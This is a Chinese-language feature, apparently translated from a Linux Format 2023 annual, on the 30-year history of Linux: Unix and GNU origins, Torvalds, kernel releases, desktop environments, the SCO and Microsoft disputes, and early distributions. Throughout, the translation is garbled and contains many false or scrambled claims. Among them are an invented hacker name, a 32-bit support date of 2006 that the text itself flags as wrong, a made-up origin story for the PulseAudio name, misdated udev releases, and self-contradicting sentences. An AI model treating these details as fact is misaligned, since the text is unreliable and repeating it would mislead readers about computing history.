# Linux Format 年度回顾 - 第 6 卷，2023


欢迎阅读《Linux Format 2023 年度合集》，这一期格外特别，因为我们正在庆祝 Linux 迎来 30 周年大寿！在香槟饮尽之后，我们将一起探索 Linux 如何驱动地球上最强的 500 台计算机，深入研究如何构建一个发行版，并揭秘 Linux 为何能如此迅速地崛起。随后，我们将回归现实，去揭开 VPN 的真相，尝试一些全新的 Pi 项目，并构建一个自定义媒体中心。所有这些以及更多精彩内容，尽在接下来的篇章中。


## 编辑团队

编辑 Clarke Ginger
设计师 Efrain Hernandez-Mendoza
资深艺术编辑 Andy Downes
艺术与设计主管 Greg Whittaker
编辑总监 Jon White

### Linux Format 编辑部

编辑 Neil Muir
编辑总监 Jonel Bilboul
技术编辑 Efrain Hernandez-Mendoza
艺术编辑 Efrain Hernandez-Mendoza
运营编辑 Cliff Hope
集团主编 Graham Barlow

### 封面图片
Getty Images
Getty Images

### 广告
广告资料包可应要求提供
商业总监 Clare Swan

### 国际业务
印刷与许可主管 Rachel Shaw
licensing@futureplc.com
www.futureplc.com/international

### 发行
发行主管 Tim Mathers

### 制作
制作主管 Mark Constance
制作项目经理 Matthew Eglington
广告制作经理 Jasmine Cody
数字编辑控制员 Jason Hudson
制作经理 Wendy Ellis, Sara Wakeley, Sylvonne Clevert, Fran Twyman

英国印刷
由 Marketforces 分发，地址：5 Churchill Place, Canary Wharf, London, E14 8NN。注册办公室：Marketforces Ltd, 8-10 Gosforth St, NE3 4GG


## 庆祝 Linux 诞生 30 周年！

一个 21 岁青年在卧室里的编程项目是如何征服世界，以及沿途发生的其他故事。

Linux 的存在全因圣诞节。1991 年 1 月 5 日，一名当时与母亲同住的 21 岁计算机科学系学生，揣着满满的圣诞礼金，走在（我们假设是）被积雪覆盖的赫尔辛基街道上。林纳斯·托瓦兹（Linus Torvalds）走进当地的一家 PC 商店，购买了他的第一台 PC——一台配备 4MB 内存和 40MB 硬盘的 Intel 386 DX33。就在这台坚固的机器上，他编写了 Linux 的第一个版本。从那一刻起，Linux 的历史变成了一个关于社区协作、开源开发、软件自由和开放平台的动人故事。

在走进那家电脑店之前，林纳斯·托瓦兹曾摆弄过冷门的（英国设计的）Sinclair QL (Quantum Leap) 和更为知名的 Commodore VIC-20。虽然它们是优秀的家用电脑，但都不可能孕育出一个横跨全球的内核。一个男孩需要标准，才能创造出能被全球采用的东西，而一台 IBM 兼容 PC 是完美的起点。不过我们并没有夸大其词——在那个时间点，他的心思更多地放在玩《波斯王子》上》，而不是专门开发一个旨在征服微软的内核。

## 林纳斯·托瓦兹的成就

> “一个几乎买不起 Intel 386 DX33 的 21 岁青年，即将启动一个能够支撑起整个软件生态系统的开发进程……”

让我们明确一点：一个几乎买不起 Intel 386 DX33 的 21 岁青年，即将启动一个能够支撑起软件生态系统的开发进程，而这个生态系统反过来又运行着世界上大多数智能设备、绝大部分互联网、一些最快的超级计算机、好莱坞特效行业的很大一部分、SpaceX 的火箭、NASA 的火星探测器、自动驾驶汽车、数以千万计的类 Pi 单板计算机（SBC）以及一大堆其他东西。这到底是怎么发生的？翻页寻找答案……

## Pre-Linux 开发阶段

探索 Unix 和 GNU 如何成为林纳斯·托瓦兹灵感之作的基石。

要理解 Linux 是如何开始的，你需要理解 Unix。在 Linux 之前，Unix 在 20 世纪 60 年代到 70 年代是一个成熟的操作系统标准。它当时已经为 IBM、HP 和 AT&T 等公司构建的大型机提供动力。我们并不是在说卖炸鱼薯条——它们在当时就是向全球销售产品的巨头企业。

如果我们观察 Unix 的发展，你会发现它与 Linux 有某些相似之处：那些被给予充分自由去开发他们想要的东西的自由思考的学术型人才。但不同的是，Unix 最终被禁锢在闭源的公司之中，这导致开发团队固定且日益萎缩，被利润率和律师费所侵蚀。

而追随 Linux 的群体则采取了更严格的开放方式。这使得全球范围内的自由实验、开发和协作成为可能。你明白我的意思了！

回到 Unix，这是一个在 20 世纪 60 年代末始于学术界的操作系统标准，部分开发在 MIT、贝尔实验室以及后来的 AT&T 展开。这个最初的单处理 OS 衍生自更早的名为 Multics 的系统，它拥有 shell、编辑器和 B 编程语言。在某个时间点，“cs”被替换成了“x”，大概是因为“x”看起来更酷。

此时，有人需要一个能在 DEC PDP-11 机器上运行的文本编辑器。于是，Unix 团队响应需求，开发了 roff 和 troff，这是第一个数字排版系统。如此强大的功能需要大量的文档，因此“man”页面（即现今所说的手册）在 1971 年 11 月随第一本《Unix 编程手册》而诞生。这完全是运气使然，因为 DEC PDP-11 是当时最流行的微型大型机，每个人触手可及的都是记录整齐且公开共享的 Unix 系统。

1973 年，Unix 第 4 版用可移植的 C 语言重写，不过直到五年后，Unix 才能在 PDP-11 以外的设备上运行。在那个时期，从 AT&T 获得 Unix 源代码副本的许可费用按现在的钱计算几乎需要 10 万美元，因此 80 年代的商业用途非常有限。然而，Unix 的价格迅速下降，在贝尔实验室、AT&T 以及计算机科学学生中的广泛使用推动了 Unix 的普及。它被认为是通用 OS 标准，在 80 年代中期，POSIX 在美国政府的支持下由 IEEE 标准化。这使得任何遵循 POSIX 的操作系统在很大程度上（如果不是全部的话）都能与其他版本兼容。80 年代末，Unix 的故事变得混乱，商业斗争、标准竞争和标准的封闭化频发，通常被称为“Unix 战争”。就在 AT&T、Sun Microsystems、Oracle、SCO 等公司争论不休时，一个芬兰男孩即将进入大学……

## LINUX 运行一切

为超级计算机开发软件极其昂贵。在 20 世纪 80 年代，Cray 公司在软件同步开发上的投入与硬件投入相当。在这一日益增长的趋势中，Cray 最初使用私有 OS 系统，随后使用基于 BSD 的 OS，最终在 2004 年使用 SUSE Linux 来驱动其超级计算机。这在预料之中，因为现在前 500 强超级计算机（www.top500.org）中约 98% 都在运行 Linux。

互联网服务也大多被开发为在 Unix 系统上运行。Microsoft 和 BSD 系统确实占据了一部分服务器份额，但超过 50% 的 Web 服务器由 Linux 驱动。近期向基于容器部署的虚拟服务的迁移全部基于 Linux。微软的云服务 Azure 报告称，Linux 是其部署量最大的 OS，甚至于 Google 使用 Linux 来驱动大多数现代应用，而许多其他服务供应商也在使用相关应用。

Android 的移动 OS 份额在 2020 年下降至 84%——而它是由 Linux 内核驱动的。第一个 Android 启动项目在 2005 年开发了 Android。LineageOS (https://www.lineageos.org) 是 Android 一个维护良好的分支，在制造商放弃设备且 Google 放弃支持 AOSP 之后，它取代了后者。

太空曾被认为是 Linux 的最后前沿，因为它不是一个认证的确定性 OS，而确定性 OS 是任务关键型场景中实时 OS 的金标准。然而，驱动航天飞机的火箭使用 Linux 来驱动其飞行系统（采用三重复 redundancy 系统），而 NASA 已经在其火星直升机“机智号”（Ingenuity）中使用了 Linux。据报道，特斯拉在其汽车中也运行着 Linux。

Linux 自 1997 年起也成为了好莱坞特效的核心，当时《泰坦尼克号》在 Digital Domain 使用了由 DEC Alpha 系统组成的 Linux 服务器集群来创建 CGI。DreamWorks SKG 在 2001 年成为第一部完全在 Linux 系统上渲染的电影。与此同时，Pixar 在 2000 年左右将其 Renderman 系统从 SGI 和 Sun 服务器迁移到 Linux，从而赶在 2003 年制作出了《寻找尼莫》。

## 30 周年

## 理查德·斯托曼的 GNU 之作

> “他发起了一场自由软件开发革命：一个完整的自由 OS 生态系统、自由软件许可和至今依然强大的哲学。”

### 我们 GNU 那个

在我们深入探讨 Linux 的早期世界之前，还需要把成功拼图的另一块放好：由理查德·斯托曼（Richard Stallman）创立的 GNU 项目。斯托曼是 20 世纪 70 年代开发环境的产物：一个自由思考的、学术的、嬉皮士类型的人。有一天，他无法使用一台打印机，因为公司拒绝提供打印机的源代码，他无法修复该问题——在当时，提供源代码是很正常的。他变得激进起来，发起了一场自由软件开发革命：一个完整的自由 OS 生态系统、自由软件许可和至今依然强大的哲学。让私有软件吃这招吧！

GNU 项目由斯托曼在 1983 年成立，GNU 是一个（至少对黑客来说）很有趣的递归缩写，意为“GNU is Not Unix”（GNU 不是 Unix）。明白了吗？它的目标是建立一个自由的 OS 生态系统，包含一个功能完整的 OS 所需的所有工具和服务。请记住，当时创建的大多数工具至今仍在被使用和维护。到 1987 年，GNU 已经建立了自己的编译器 GCC、Emacs 编辑器、GNU 核心实用工具（GNU Core Utilities，如列出、复制、删除等基础文件操作工具）的基础、一个初步的内核和一个国际象棋引擎（参见 Ltd 273）。但更重要的是，斯托曼通过 1989 年的“copyleft” GPL 软件许可及其宣言，巩固了他关于软件自由的理念，规定了四项软件自由，允许用户出于任何原因运行、学习、修改和分发任何软件——包括源代码。

GPL 仍然是最强大的 copyleft 许可，虽然它可能不再像以前那样流行，但它仍被认为是真正开源开发最好的许可，并巩固了大多数 Linux 发行版。GCC 依然是行业标准。Emacs 仍然是一个功能丰富的开发环境，而 GNU 核心实用工具在某些 POSIX 系统和大多数 Linux 发行版中仍被广泛使用。你可以认为，如果没有 GNU 项目的建立，Linux 永远不会起飞：GPL 许可（在 Linux 开发早期就被采用）强制所有开发者将他们的增强功能回馈给源代码。这是一个促进共享改进的反馈循环。而其他替代的开源许可则允许公司拿走源代码却永远不回馈。


## Linux Format 年度回顾 2023

这些改进意味着基础代码更有可能保持静态。这得到了那一代开发者的支持，他们厌倦了研究和使用 Unix，希望为一款真正自由的开源操作系统做出贡献。

### 让我们一起 Freax 起来！

我们说得太快了。林纳斯·托瓦兹（Linus Torvalds）当时拥有一台 Intel 386 电脑，在赫尔辛基大学学习计算机科学，并使用 MINIX 16 位操作系统及其内核。MINIX 是一款兼容 POSIX 的类 Unix 操作系统和微内核。然而，MINIX 的许可协议有限制，售价仅为 69 美元，虽然提供源代码，但限制了限制修改和重新分发。

我们推测 16 位的限制促使托瓦兹创建自己的 32 位内核，但他表示许可限制也是关键因素。因此，在 1991 年 8 月 25 日，他在 comp.os.minix 发布消息，称他正在开发自己的自由操作系统。他说这“不像 GNU 那样专业”，而且只支持 AT 硬盘，因为那是他拥有的全部。

> 我们必须提到 Linux 的吉祥物——企鹅 Tux，它曾经咬过林纳斯。这是真事！

尽管其创建者自命不凡，但 Minix 已经停止开发，尽管它运行在 Intel 的 CPU 管理引擎（CPU Management Engine）上。

该系统在 MINIX 系统上开发，使用 GNU GCC 编译，并且他移植了 GNU Bash。托瓦兹原计划将该操作系统命名为 “Freax”（结合了 “Free”、“Freak” 和 “Unix”），但当他将其上传到 ftp.funet.fi 后，一名志愿者管理员（来自 Liikenne）在未告知他的情况下将其重命名，因为对方认为这样更好。就这样，Linux 的第一个版本 0.01 于 1991 年 9 月发布。

发布说明中有一段很耐人寻味：“只有一个内核是没用的。要获得一个可运行的系统，你需要 shell、编译器、库等……” Linux 使用的大多数工具都是 GNU 软件，并遵循 GNU copyleft 协议。这些工具并不在发行版中——不过可以通过 GNU 获取更多信息。

重要的是，这概述了 Linux 对其他 GPL 许可工具的依赖，并展示了 “distribution”（发行版）一词的使用，现在简称为 “distro”。正如托瓦兹所指出的，操作系统不仅仅是一个内核，它是工具、脚本、编译器、服务和内核的组合，被打包成一种更简单的形式，方便用户安装和使用。

起初，林纳斯·托瓦兹使用了自己的许可协议，限制商业用途，但到 1992 年 1 月，内核许可被要求采用 GPL，随后内核许可在 1992 年 12 月进行了更改，以与他使用的其他工具保持一致。在 v0.99 版本发布时，Linux 内核许可正式变更。这巩固了法律条款：任何使用内核源代码的人必须将用于发布代码中的任何更改回馈给社区。

### OSDL 带来了基金会的实验室

开源开发实验室（Open Source Development Labs, OSDL）在千禧之交成立，其目的之一是将 Linux 引入数据中心和电信网络。他们在 2003 年成为了托瓦兹（以及他的得力助手 Andrew Morton）的雇主。在此之前，他受雇于 Transmeta，该公司允许他在处理其他工作的同时继续进行内核开发。五年前，另一个财团——自由标准组织（Free Standards Group）由他们成立。到 2007 年，其工作范围扩大，决定与 Linux 合并，两组最终合并成立了 Linux 基金会（LF）。

如今，LF 的白金会员包括 Facebook、微软、腾讯、IBM 和英特尔。除了支付白金会员所需的 50 万美元外，他们都为内核贡献了大量的代码。2012 年，当微软希望在 Azure 云上运行 Linux 时，他们一度成为了最大的贡献者。除了资助内核，LF 在 source forge 上托管了数百个其他项目，包括 Encrypt、OpenJS 基金会和旨在保障互联网底层软件安全的核心基础设施倡议（Core Infrastructure Initiative）。

但这里不仅有代码和公司。还有会议，正是由于 Linux 基金会，我们才能提供年度开源峰会（Open Source Summit）的访谈和报道。我们期待会议能恢复，这样我们就能回到小吃吧和咖啡壶旁。

## 早期内核开发

多年来，精炼 Linux 的核心部分并非易事……

你是否是一个最近转投 Linux 的用户，不得不与顽固的配置文件、行为异常的驱动程序或其他令人困惑的故障作斗争？那么，你应该想一想那些早期采用者，正是他们的错误报告和有效的发声，为当代桌面 Linux 铺平了道路。直到相对近期，通过向内存输入无效的时序信息导致内存损坏，或者遇到 GDT 问题，在当时是完全可能的。试想一下用早期版本的 Lilo 与之搏斗吧。

在早期，让鼠标工作都并非易事，需要用户进行大量的手动校准。随后发布了一个名为 Xconfigurator 的工具，它提供了用于设置 X server 的文本模式、菜单驱动界面。它被认为是救星，尽管它所做的一切仅仅是生成一个 XF86Config 文件，然后仍需手动编辑。

因此，在 2000 年，当 Windows Me 用户在处理系统缓慢和禁用实模式 DOS 时，普通的 Linux 用户在安装程序首次完成时会祈祷并欢呼。即使你达到了那个阶段，如果认为操作系统能成功启动，那也太乐观了。硬件检测几乎不存在，而在为 Linux 编写的少数驱动程序中，没有一个是生产级别的质量。然而，开拓者们依然坚持了下来——他们中的许多人更倾向于 DOS 的工作方式，而这种方式在千禧年临近时开始被边缘化。Windows 用户的文件被抽象化了——“我的电脑”探索已毫无意义。

2001 年 1 月，内核 2.4 版本发布，随之而来的是对 USB 和令人兴奋的新 Pentium IV 处理器的支持等。由于它对 PCI、ISA、PC Card 和 PNP 设备采取了统一处理，并支持 ACPI，这对桌面用户尤为重要。虽然互联网泡沫即将破裂，但围绕它的所有兴奋和投机意味着许多计算机爱好者家中拥有宽带连接，有些人甚至享受拥有不止一台电脑的奢侈。

### 对用户不友好的 Linux

这解决了一些进入 Linux 的门槛：人们现在可以更轻松地下载它；最新的文档易于获取，而且当 Linux 导致互联网连接中断（或使系统不稳定）时，可以使用另一台机器寻求指导。但总体而言，用户体验仍然极其糟糕。虽然一些安装程序演化出了图形化能力，但这些功能往往带来的麻烦比其价值更多。用户被要求了解所有细节，包括磁盘分区，并能从通常晦涩的描述中辨别他们需要的软件包。

> Human 主题是为了让 Ubuntu Linux 变得更友好而做的一次尝试，因为众所周知，棕色是美丽的，尤其是如果你是一个崇拜者……

Windows XP 于 2001 年 10 月发布，虽然被认为比前任有巨大进步，但许多用户发现他们的机器无法运行它。毕竟，它需要 64MB 内存和高达 1.5GB 的磁盘空间。记住，当时的 BIOS 刚刚获得寻址大容量驱动器的能力（有各种绕过 BIOS 的方法，2.1GB、4.2GB 和 8.4GB 是常见的障碍）。因此，很多人根本无法在自己的硬件上安装它，而许多达到最低配置的用户发现，随着他们添加办公套件和有限的可运行实用程序，性能迅速下降。

这为另一次令人难忘的 Linux 迁移提供了动力，而复古硬件群体继续将其作为关键目标（对于不受 32 位驱动器限制的用户）。在 2006 年之前，所有 Mac 都使用 PowerPC 处理器，其中许多（以及早期的 Intel Mac）在长期失去 Apple 的软件更新后，也运行 Linux。

### Gnome 登场

Gnome 2 桌面环境于 2002 年发布，它成为了一个极具影响力的桌面，以至于有些人（无论是出于怀旧、活动主义，还是对现代替代方案的顽固反感）仍试图地复现它。它的目标是简单、可定制且直观，很难否认它实现了所有这些严格的定义。主要的推动因素之一是它严格遵守 Gnome 人机界面指南（Gnome Human Interface Guidelines），该指南设定了一些关键的交互设计目标原则。这意味着桌面不仅在内部是一致的，而且对于人们随后为其编写的所有 GTK 应用程序也是一致的。

2003 年发布的还有 KDE 3，它逐渐反转了之前的局面，与 Gnome 相比，它功能更丰富，但对资源的消耗也略高。一些分发者将它与另一方打包在一起。某些用户（OSNews 的 LINUX 前身）始终旨在坚定，但当 KDE 在 2003 年反超时，如今它同时服务于 Gnome 和 KDE。

2002 年底，“DVD Jon” Johansson 因为发布了 1999 年的 Linux DVD 软件而入选名单，特别是针对商业 DVD 光盘上使用的内容混淆系统（CSS）。该软件使 Linux 用户能够播放 DVD，在此之前他们无法做到这一点，因为 DVD 软件需要 DVD 拷贝控制机构（DVD Copy Control Agency）的许可密钥，而该机构在诉讼中予以拒绝。后来人们发现 CSS 可以更简单地被破解，Johansson 最终被宣判无罪。到那时，由于 DVD 和盗版的影响，微软放宽了合规要求。这一点在许多机构主张拥有底层算法各部分所有权的专利问题中得到了呼应。结果，许多发行版在出货时没有包含专利-

### 大企业 VS LINUX

由于金钱是万恶之源，每当涉及金钱时，事情可能会变得糟糕。因此，当企业和商业市场的巨头开始将 Linux 视为一个可行的威胁时，律师就被请来了。

一系列来自 1998 年 8 月左右的微软内部泄露备忘录（因发布日期被称为 “万圣节文档/Halloween Documents”）详细记录了微软对 Linux 以及通用开源软件的私下担忧。Linux 被视为对其业务的直接威胁，并探讨了对抗其普及的方法。这种私下观点与公司在公开场合的立场直接冲突，尽管史蒂夫·鲍尔默（Steve Ballmer）在 2001 年的文档中曾有名言，称 Linux 为一种 “癌症”。这些文档可在 www.steveballmer.com/halloween 获取，其中最可怕的预测是 “Linux 有望最终掌控 X86 UNIX 市场……” 这一切就此开始。

但微软很快发现，对抗 Linux 的手段有限，因为它无法被买断。文档中建议使用微软自己的私有扩展来扩展开放协议（这些扩展仅在其网络中有效），以及通过制造恐惧、不确定性和怀疑（FUD）来抢占市场，但这都失败了。然而，还有另一个角度：帮助一家正在起诉我们世界的公司？

源代码的版权侵权。2003 年，一家名为 SCO 的公司声称其 UNIX System V 源代码的部分内容被用于 Linux 中，使其成为了 UNIX 的未经授权的衍生品。SCO 起诉 IBM 索赔 10 亿美元（以及许多其他公司），并要求每个用户支付年度 Linux 许可费。微软迅速采取行动，增加了一笔 1.06 亿美元的资助，这在一份泄露且经核实的 SCO 备忘录中得到了详细描述。经过多年的诉讼，一次代码审计发现 Linux 内核中没有复制 UNIX 代码的证据。SCO 在 2009 年破产，但部分诉讼至今仍在进行。


受限的多媒体编解码器。尽管法律界定较为模糊，但权利持有者在对这些编解码器的 FOSS（自由开源软件）实现提起诉讼时表现出了克制。大多数发行版较为审慎，将安装选择权交给用户。如果你勾选一个复选框，Ubuntu 及其衍生版会为你安装。MP3 专利在 2017 年到期，不过这其实并不重要——我们现在已经拥有大量无需专利的格式和编解码器（如 OGG、FLAC、VP9 和 x264）。从技术上讲，使用 libdvdcss（一种现代且高效得多的破解 CSS 的方法，被大多数 Linux 播放器使用）来观看 DVD 仍然违反 DMCA，但这仅适用于某些国家，且在某种程度上，如今已没人关心了。

> LImux 项目使用了慕尼黑的标志——慕尼黑之子（Munchner Kindl）。恰如其分的是，这是一个很难攻克的硬骨头。但据估计，该项目节省了约 8800 万欧元。

## 早期内核开发

随着 Linux 逐渐获得关注（起初是在学术界和爱好者中，随后到 90 年代中期在商界中），一种趋势开始形成。许多贡献者认为，一旦 X Window 系统在 Linux 上运行起来（使用 X11r5.11），它会变得更具吸引力。令人惊讶的是，这意味着即使在 1992 年，人们依然害怕命令行。这在普及过程中促成了维护者层级结构的建立，以便提交的补丁能够被高效地审查和推广。Linux 源码树的 MAINTAINERS 文件将 Linux 描述为“被淹没在电子邮件之中”。

基于电子邮件的工作流是内核开发的核心，直到 1999 年建立了官方 Linux 内核邮件列表，现在它被用于版本控制。因此，如今确保你是在最新的分支上工作要容易得多，无需在邮件中等待结果。补丁仍然使用 `diff -u` 生成，以显示哪些文件的哪些行被更改了。在 Git 出现之前，使用的是私有的 BitKeeper 并发控制系统 (VCS)。当该协议终止（由于一场意外！）后，Linus（在 Andrew Gotte 的逆向工程指导下）接过了主导权，几年后 Git 应运而生。

在 1996 年 Linux 2.0 发布后，Linux 2.6 于 2003 年发布。这是一个与 v2.0 完全不同的产物，具有调度器增强、改进的多处理器系统支持（包括超线程、SMP 和 NUMA）、更快速的 I/O 以及海量的额外硬件支持。我们还看到了物理地址扩展 (PAE)，使得 32 位机器可以寻址高达 64GB 的内存（之前被限制在约 3.2GB）。

同时引入的还有久负盛名的高级 Linux 声音架构 (ALSA) 子系统。这使得主流声卡几乎能够“开箱即用”，并支持多设备、硬件混音、全双工操作和 MIDI。

必要的逆向工程成就还包括旧的设备管理子系统 devfs，后来被 udev 取代。udev 直到 2.6.13 版本（2003 年 11 月）才出现，此时 /dev 目录不再是一个（极长的）静态节点列表，而成为了实际连接到系统的设备的动态镜像。udev 子系统还处理将固件绑定到设备以及用户空间事件，为桌面用户提供了更便捷的体验。尽管你仍然可以依赖像 HAL 和 udev 那样的深奥手段，以正确的权限来发现一个自动挂载的 USB 闪存盘。

Linux（可能已被移植到非 x86 64 位处理器）在 2001 年发布时支持 Itanium 的 IA64 指令集。这种架构注定要被淘汰，英特尔最终转向了更保守的 AMD64 (或 x86-64) 架构。

| 1992 年 3 月 7 日 | 1994 年 3 月 14 日 | 1995 年 3 月 7 日 | 1996 年 6 月 9 日 | 2002 年 2 月 20 日 |
| :--- | :--- | :--- | :--- | :--- |
| **v0.95 X Windows** 一位名叫 Orenet Zombieport 的黑客将 X Windows 安装到 Linux。 | **v1.0.0++ 编译** 第一个正式发布版本 v1.0.0，在命名 v0.95 时过于乐观，花了大约两年时间才推出 1.0 版本。 | **v1.2.0 Linux '95** 此版本解决了可移植性问题。该版本获得了对使用 Alpha、SPARC 和 MIPS 架构处理器的计算机的支持。 | **v2.0.0 SMP 支持** 添加了对称多处理 (SMP)，使其成为许多企业的严肃竞争选择。 | **v2.5.5 64 位 CPU** 现在支持 AMD 64 位 (x86-64) 和 PowerPC 64 位。 |

- 1992 年 3 月：386BSD
- 1996 年 4 月：Apache HTTPD
- 2002 年 9 月：Blender

后者自 2003 年起就一直存在。得益于开源开发，Linux 用户能够立即运行 64 位桌面，而 Windows 用户则必须等到 2005 年 XP 的 x64 版本发布。各种私有应用程序（尤其是 Steam 等）仍然以 32 位模式运行游戏，这促使各发行版至少保留部分 32 位库。Debian 11 将以某种形式支持 32 位 x86 直到 2006 年（注：此处原文日期可能有误），但大多数其他发行版已经放弃了它。最终，这种对 386 的支持将会消失，Linux 自 2013 年起已不再支持它。

Ubuntu 在 8.04 版本中采取了类似做法，尽管其实现引发了许多批评，并导致了大量针对 PulseAudio 的激烈指责。Poettering 在某个阶段甚至将他的灵感描述为“目前威胁我理智的软件”。经过一段时间，Ubuntu（以及其他发行版）最终解决了实现问题，基本实现了开箱即用。现在我们有了 Pipewire，旨在开启新一代基于音频的“愤怒反抗机器”。

## 进步的代价

在一些人的记忆中，向 PulseAudio 的过渡是 Ubuntu 开始失去方向的标志。其 Ubuntu 软件中心现在包含了付费应用，而 Netbook remix 在 11.04 版本中使用了名为 Unity 的新桌面。虽然此版本将新 Shell 用于主版本，但 Unity 长期以来一直是一个侧边项目。在新的 Gnome 3 桌面（在 Ubuntu 功能冻结时，它被认为还不够稳定，无法包含在发布版本中）和 Gnome 2 之间已经存在很大差异。Ubuntu 希望部分用户能快速学会使用新桌面。当然，事情又回到了原点，Ubuntu 在 11.04 之后再次引入 Gnome 3，并可能放弃 Unity。

## 原型的登场

2004 年，一个名为 PulseAudio 的声音服务器由一位此前不为人知的开发者 Lennart Poettering 和其他人发布。当时，桌面环境的发行版似乎发现了 ALSA 系统的其他缺陷：Gnome 使用 Enlightened Sound Daemon (ESD)，而 KDE 使用 Analog Audio System remote (ASound)。PulseAudio 被设计为 ESD 的直接替代品，提供了更先进的功能，如每应用程序的音量控制和网络透明度。2006 年，该项目以行业方式过于委婉为由，永久地将自己重命名为 pulseaudio（实际上它是以一种海洋生物命名的）。

凭借新名称以及对声音系统需求的增加，以及随新发布的（且备受诟病的）Windows Vista 而来的新兼容性，PulseAudio 进入了实质性的开发阶段，并开始被考虑纳入许多发行版。按照传统，Fedora 是第一个采用它的，在 2007 年底发布的版本 8 中将其设为默认。

Gnome 3 也并非没有争议。首先，许多人更喜欢旧的 Gnome 2 的操作方式，而这显然在合理的显卡（以及运行良好的驱动程序）上有所下降。虽然有回退模式，但它严重削弱了桌面的可用性。最后，这似乎在某种程度上是为其他平台的移动端设计的，即使在今天，移动操作系统（如 Android）也没有给用户太多理由被强加这种思维模式。有些人发现，一旦打破旧习惯并学会一些隐秘的键盘快捷键（并且安装了 Gnome 的 Tweak Tool），Gnome 3 的工作方式可能同样高效。如果不是更高效，Ubuntu 用户在 2008 年 KDE 4 发布时，在经历所有桌面现代化（尽管比 Gnome 的变动小）的繁琐过程后，是以一种混合了宽慰与痛苦的心情看待的。

在这个时间点上，我们也应该提到 Systemd，但已经没有太多没说过的话了：旧的 init 系统已到了极限；一个新的 beta 版随之而来；它不再是每个人的心头好，但我们还是在使用它，而互联网则在诋毁 Lennart Poettering。


## 发行版的发展

单个内核促使大量 Linux 发行版蓬勃生长。

在研究了 Linux 内核本身及其周边支撑软件的发展之后，让我们来看看从那时起，Linux 发行版（distros）是如何开发并分化为一个广泛的生态系统的。

发行版使 Linux 内核的使用得以迅速增长。它们不仅简化了 Linux 的安装过程（早期安装是一个复杂的过程，需要在资源有限的系统中通过终端进行源码编译、收集正确的工具、手动创建文件系统布局和引导加载程序），而且一个发行版还可以成为另一个全新发行版的基础，从而服务于新的用途或受众。

### 原始汤

由于 1991 年 9 月时 Unix 并非免费可用，由 HJ Lu 创建的第一个 Linux 发行版——尽管以现代标准来看它在各方面都缺乏——被简单地称为 Linux 0.12。它在 1991 年底发布，勉强算是一个可操作的系统。为了启动它，用户需要使用 HEX 编辑器才能运行。一张磁盘是内核启动盘，另一张则存储根 OS 工具。在发行版演化的早期阶段，情况变化极快。开发过程远比基于简单目标构建组件要混乱得多；人们在尝试寻找将 Linux 作为基础安装 OS 的最佳打包方式。MCC Interim Linux 于 1992 年 2 月发布，配备了改进的文本安装程序。到 1992 年底，更多的发行版相继出现，例如 Slackware——它驯服了 Windows 类 Unix 系统软件，而 TAMU Linux 于 1992 年 5 月发布并完成了打包，使其成为第一个图形化发行版。

虽然早期的发行版虽然提供了一个基础，但首批 Linux 发行版的情况有所不同。同样的情况也适用于 1992 年 5 月发布的 Softlanding Linux System (SLS)，它打包了 X Windows 和 TCP/IP 网络。然而，尽管这些发行版存在一些缺陷（Bug 以及可执行系统的变更），但它们启发了两个运行时间最长且在很多方面最具影响力的 Linux 发行版的创建：Slackware 和 Debian。

如今，许多发行版在形式上由个人、团体或企业维护。一旦它们站稳脚跟、稳定并流行起来，就会产生分支。这些根发行版提供了新的专业化方向或功能。这创建了若干个基础发行版“属”，它们围绕原始的软件包管理器和软件仓库而形成。

其结果就像一棵家族树（见第 43 页），你可以将任何发行版一直追溯到最初的根发布版本。有些分支生长后又枯萎消失，要么是因为维护团队解散，要么是因为缺乏更广泛的兴趣。有些分支则变得极其流行，以至于创造了一个全新的“属”，成为进一步扩张的基础。



### 是演进，而非革命

与动植物一样，分支继承特征，其中内核、软件包管理器和软件仓库是关键。软件包管理器是操作系统安装、更新和删除二进制文件及已安装软件的方式，包括下载软件包、管理共享软件服务器和协调仓库。这可能会引起争议——这些子发行版在“吸血”父发行版的带宽——但最初，它们确实在成长。

请记住，我们回到了 1992 年。如果你家里有一个 14.4Kb/s 的拨号调制解调器就算幸运了；昂贵的 T1 线路 (1.54Mb/s) 仅限于学术机构和大型企业。早期的 TAMU v1.0 发行版需要 18 张磁盘来存放 26MB 的二进制文件，以及 39 张磁盘来存放 20MB 压缩（未压缩为 200MB）的源代码。显然，这在早期将访问权限限制在了学术界和相关企业中，因此其演进速度较慢。


### 认识先祖

Softlanding Linux System 曾很流行，但它 Bug 很多且维护糟糕，因此在 1993 年 7 月，Patrick Volkerding 分叉了 SLS 并创建了 Slackware——之所以如此命名，是因为当时这并不是一项严肃的尝试，是对“SubGenius 教会”的引用。这是目前仍在维护的最古老的 Linux 发行版，且即将迎来其 15.0 版本的发布。Slackware 是一个有趣的发行版，因为它在很大程度上由 Volkerding 控制和维护，随后由一小群但充满热情的用户和贡献者支持。而许多其他发行版采用了现代增强功能，Slackware 则坚持使用更古老、更传统的 “Unix” 方式来控制软件服务。这里没有正式的 Bug 跟踪，没有公开的项目贡献方式，也没有公开的代码仓库。这一切使得 Slackware 成为 Linux 世界中一个特立独行的异类。由于其历史悠久，Slackware 由几十位爱好者维护，且至少有一半至今仍被维护。

1993 年 8 月，同样对 Softlanding Linux System 感到沮丧的 Ian Murdock 建立了 Debian，其名称结合了他当时女友的名字 “Debby” 和他自己的名字 “Ian”。从一开始，它就采用了协作形式，是一个秉承 Linux 精神的正式协作开放项目。

在 Debian 项目早期，Bruce Perens 维护基础系统。他为项目编写了一份社会契约，并在公共领域（Public Domain）创建了软件，这是一个法律上的伞形组织，旨在让 Debian 能够接受贡献。当时，Perens 在 Pixar 工作，因此所有 Debian 的开发构建版本都以《玩具总动员》中的角色命名。Debian 的标志与 Pixar 的灯也具有一定的相似性。

